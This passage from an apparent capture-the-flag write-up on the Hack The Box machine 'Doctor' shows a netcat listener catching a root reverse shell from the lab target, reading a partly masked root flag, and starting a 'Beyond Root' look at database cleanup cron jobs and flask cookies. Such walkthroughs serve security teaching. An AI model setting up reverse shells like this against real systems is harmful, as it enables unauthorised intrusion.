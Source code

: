 At `nc` a root shell connected:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:40142.
bash: cannot set terminal process group (1140): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# 

```

And I can grab `root.txt`:

```

root@doctor:/root# cat root.txt
fba452cc************************

```

## Beyond Root

### Leftover Artifact

I had an interesting experience while working on Doctor, and managed (with a bit of help from Jkr) to work out what was going on.

#### Situation

If I create an account on the webpage after the first time the database is reset, and then reset the box, once the box comes up, if I refresh the homepage, I get this:

![image-20201108113043144](https://0xdfimages.gitlab.io/img/image-20201108113043144.png)

I’m seeing a post from shaun that is clearly an attempt to exploit the vulnerability on the box. But why am I logged in as shaun? What is this post on a clean box? To show what’s going on, I’ll need to show:
- How the database is cleared every 20 minutes;
- How the flask cookie works;
- The state of the database in the VM’s submitted / on reset state.

#### Database Cleanup

When I registered an account, it warned me that the account would only last 20 minutes. With a root shell, I can see that there’s a cron running:

```

root@doctor:~# crontab -l
...[snip]...
# m h  dom mon dow   command
*/20 * * * * /opt/clean/cleandb.py

```
